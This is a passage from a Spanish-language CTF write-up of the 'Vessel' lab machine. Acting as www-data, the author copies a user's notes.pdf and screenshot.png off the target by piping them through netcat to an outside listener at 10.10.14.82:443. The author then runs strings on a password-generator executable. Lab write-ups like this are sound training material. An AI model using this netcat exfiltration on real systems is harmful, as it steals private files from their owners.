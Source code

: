{% highlight bash %}
www-data@vessel:/home/steven/.notes$ ls
notes.pdf  screenshot.png
www-data@vessel:/home/steven/.notes$ cat notes.pdf | nc 10.10.14.82 443 #Inicio un listener en mi máquina y mando el archivo al listener.
^C
www-data@vessel:/home/steven/.notes$ cat screenshot.png | nc 10.10.14.82 443
^C
{% endhighlight %}

La imagen simplemente es una captura de lo que puede ser el programa passwordGenerator que vimos anteriormente

![Passwords](/assets/writeups/vessel/screenshot.png)

Mientras que el PDF está protegido con contraseña... pero con cuál contraseña? probablemente una generada con este programa que estamos viendo.

Si hacemos un poco de ingeniería inversa a este artefacto pasándolo a nuestra máquina y miramos sus cadenas imprimibles con `strings` encontramos algo interesante:

{% highlight bash %}
❯ strings passwordGenerator.exe | tail -n 30
bselect.pyd
bshiboken2.abi3.dll
bshiboken2\shiboken2.pyd
bunicodedata.pyd
xPySide2\translations\qtbase_ar.qm
xPySide2\translations\qtbase_bg.qm
xPySide2\translations\qtbase_ca.qm
xPySide2\translations\qtbase_cs.qm
xPySide2\translations\qtbase_da.qm
xPySide2\translations\qtbase_de.qm
xPySide2\translations\qtbase_en.qm
xPySide2\translations\qtbase_es.qm
xPySide2\translations\qtbase_fi.qm
xPySide2\translations\qtbase_fr.qm
xPySide2\translations\qtbase_gd.qm
xPySide2\translations\qtbase_he.qm
xPySide2\translations\qtbase_hu.qm
xPySide2\translations\qtbase_it.qm
xPySide2\translations\qtbase_ja.qm
xPySide2\translations\qtbase_ko.qm
xPySide2\translations\qtbase_lv.qm